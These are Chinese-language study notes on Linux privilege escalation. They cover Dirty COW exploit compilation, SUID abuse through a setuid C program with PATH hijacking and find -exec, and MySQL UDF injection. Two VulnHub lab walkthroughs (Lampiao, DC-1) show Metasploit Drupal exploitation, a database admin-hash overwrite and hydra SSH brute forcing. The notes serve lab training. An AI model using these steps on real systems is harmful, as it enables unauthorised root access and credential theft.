Liux安装好系统后里面自带的软件或内核存在的漏洞，比较流行的有“脏牛提权”  
Linux内核提权跟Windows一样，都要下载对应漏洞的脚本进行提权

## 步骤

##### 1.基础信息收集

uname -a  打印所有可用的系统信息  
uname -r  内核版本  
uname -m  查看系统内核架构(64/32位)  
cat /proc/version  内核信息  
cat /etc/issue  发行版本信息  
whoami  当前用户名  
id  当前用户信息

​​

##### 2.查找相关版本的内核漏洞

exp搜索链接：[https://www.exploit-db.com/](https://www.exploit-db.com/ "https:lwww.exploit-db.com/")  
exp下载链接：[https://github.com/SecWiki/linux-kernel-exploits](https://github.com/SecWiki/linux-kernel-exploits "https:l/github.com/SecWiki/linux-kernel-exploits")

##### 3.使用exp利用漏洞提权

## 提权方法

### Linux内核/系统提权

以脏牛提权-CVE-2016-5195为例  Linux内核>=2.6.22（2007年发行）开始就受影响了，直到2016年10月18日才修复

1. 查看目标主机用户权限

    ```sql
    id
    ```

2. 获取主机内核版本

    ```sql
    (apache:/var/www/html) $    cat /proc/version
    Linux version 3.10.0-862.el7.x86_64 (builder@kbuilder.dev.centos.org) (gcc version 4.8.5 20150623 (Red Hat 4.8.5-28) (GCC) ) #1 SMP Fri Apr 20 16:44:24 UTC 2018
    (apache:/var/www/html) $    uname -a
    Linux localhost.localdomain 3.10.0-862.el7.x86_64 #1 SMP Fri Apr 20 16:44:24 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
    ```

3. 寻找对应exp
4. 将exp下载到目标主机编译执行

    ```python
    gcc -pthread dirty.c -o dirty -lcrypt   #编译
    ./dirty 新增用户的密码 #执行
    ./dirty 123  
    cat /etc/passwd  #查看是否新增用户
    mv /tmp/passwd.bak /etc/passwd     #销毁firefart密码文件即可恢复root
    ```

### Linux-suid提权

当执行这个程序时会临时切换身份为文件所有者身份.

权限设定方法:

1. 字母表示法

    chmod u+s FILE   添加SUID权限

    chmod u-s FILE    删除SUID权限

2. 数字表示法:

    chmod 4755 FILE      添加SUID权限到二进制程序文件 **在普通三位数字权限之前，用4代表添加到SUID位

    chmod 0xxx FILE     可以删除文件的SUID

#### suid提权步骤

##### suid 利用自定义文件提权步骤

1. 编写简单demo.c 内容为以root权限，切换到ichungiu用户，实现第三方免密用指定账号登录系统

    ```bash
    #include<unistd.h> 
    void main(){ 
    setuid(0); 
    setgid(0); 
    system("su - ichunqiu");
    }
    ```

2. 编译demo.c 文件，得到的demo

    ```bash
    gcc demo.c  demo 
    ```

3. 给权限s，chmod u+s demo
4. 伪装为su文件

    <span data-type="text" style="color: var(--b3-font-color8);">因为demo.c中有su这个系统命令，要让这个su命令执行的不是系统自带的su脚本</span>
5. 添加环境变量，让系统执行/tmp下的su文件

    ```bash
    export PATH=/tmp:$PATH
    echo $PATH
    ```

6. 在普通账户下运行demo程序，成功切换到root账户，提权成功。

##### 利用find_Suid进行提权步骤

1. 找到find的脚本路径位置，并对其添加s权限
2. 测试:切换为普通用户，并执行find语句，如:

    ```bash
    find ichunqiu -exec “whoami” \;
    ```

    注意:exec参数后面跟的是执行的系统命令 "whoami"

    执行 whoami 的结果为root,说明find的s权限，让恶意用户越权成功

### Linux mysql提权

linux mysql UDF方式提权

#### 提权条件

* mysql配置中，secure_file_priv=""
* 具有<span data-type="text" style="color: var(--b3-font-color8);">root权限</span>，且mysql数据库以system权限运行
* 具有sq语句的执行权限
* 导出<span data-type="text" style="color: var(--b3-font-color8);">目录可写</span>
* 系统中的selinux处于关闭状态

#### Linux mysql提权步骤

1. 连接到目标主机获取到shell
2. 尝试连接目标主机数据库
3. 查看Mysql的plugin（插件库）目录路径

    ```bash
    show variables like '%plugin%';
    ```
4. 找到对应数据库操作系统的UDF库文件
5. 将UDF库文件转换为16进制格式
6. 在数据库中写入UDF库到mysql插件目录

    ```bash
    select unhex('udf什六进制内容')into dumpfile '/usr/lib64/mysql/plugin/ichunqiu.so';
    ```
7. 声明创建函数

    ```bash
    create function sys_eval returns string soname 'ichunqiu.so';
    ```
8. 执行提权函数

    ```bash
    select sys_eval('whoami');
    ```

    ‍

‍

## 脏牛提权-CVE-2016-5195

### 搭建阶段

1. 环境 vulhub [lampiao](https://www.vulnhub.com/entry/lampiao-1,249/ "lampiao")   <span data-type="text" style="color: var(--b3-font-color8);">NAT模式</span>

    ​​

    报错解决法1：从vmware网站下载ovftool 4.1版本安装后，将安装目录下的文件，覆盖到VMware Workstation安装目录下的ovftools目录下即可。

    报错解决法2：导入虚拟机的文件夹不能是vmdx原文件所在文件夹
2. 不用登录

    ​​

### 信息收集

1. kali   两种扫描存活主机方法

    ```python
    nmap -sP 127.20.10.0/24
    arp-scan -l
    ```

    ​​

    ​​

    ​​
2. -A : 激进型 启用许多扫描选项，版本扫描，脚本扫描等(慎用)

    ​​

    ​​
3. 访问1898端口

### 测试阶段

1. 启动 msfconsole    输入 search Drupal寻找攻击模块

    ​​

    使用第二个，并查看当前options

    ​​
2. msf的设置

    ​​
3. 主机信息收集

    ​​
4. 使用相关探针进行探测，这里我们使用linux-exploit-suggester.sh

    ```python
    git clone https://github.com/mzet-/linux-exploit-suggester
    ```

    ​​
5. ​​
6. ​​

    ​​

### 提权阶段

7. ```python
    git clone https://github.com/gbonacini/CVE-2016-5195
    ```

    ​​
8. 上传

    ​​
9. 编译  dcow.cpp

    ```python
    g++ -Wall -pedantic -o2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
    ```

    ​​
10. ​​
11. ```python
     ssh root@172.20.10.5    
     ```

     ​

     [参考连接](https://blog.csdn.net/weixin_68408599/article/details/132332072)

‍

‍

## SUID提权-DC-1

​​

### 信息收集

1. arp-scan -l​

    ​
2. whatweb ​

    ​

    使用drupal-cms
3. nmap -sV ​

    ​

    开放了22、80、111
4. 访问80端口，确定是drupal
5. 搜索引擎搜索该框架漏洞利用方式

### 测试阶段

1. 启动msfconsole
2. search drupal

    ​​
3. use 1    采用2018-03-28漏洞

    ​​
4. ls -ll  发现flag1 - cat flag1.txt  - 获取shell - 使用python反弹交互式shell - cat setting.php 获得 db

    ​​
5. 登录数据库 mysql -udbuser -pR0ck3t

    ​​

    use drupaldb        show tables;

    ​​

    select * from users\G;

    ​​
6. admin 有密码，修改。哈希

    ​​
7. update users set pass\="\$S\$DUO423x5aaQdWlWoutaLSvNkVGU\.EeL1FKTeQUquCBLbZsavTwTU" where uid=1;​
8. 登录 admin 123456   找到flag

    ​
9. cat /etc/passwd

    ​
10. hydra -l flag4 -P /usr/share/john/password.lst 172.20.10.5 ssh -vV -f -o hydra.ssh

     ​
11. 使用ssh连接，发现最后一个flag的提示信息：in root

     ​

### 提权阶段

1. 进入/root 没有权限

    ​​
2. 可用于SUID提权的文件有

    ```python
    find、bash、nmap、vim、more、less、nano、cp 

    当没有s权限时可以使用：chmod u+s 命令路径，增加权限
    ```

3. find命令，先查看其信息​

    ​

4. 利用find命令随便查找一个正确的路径，后面加上 `-exec shell命令 \;`​​

    ​
5. 提权 `/bin/bash`​ 或者 `/bin/sh`​​​​

    [参考链接](https://blog.csdn.net/weixin_45677119/article/details/111770003)

‍
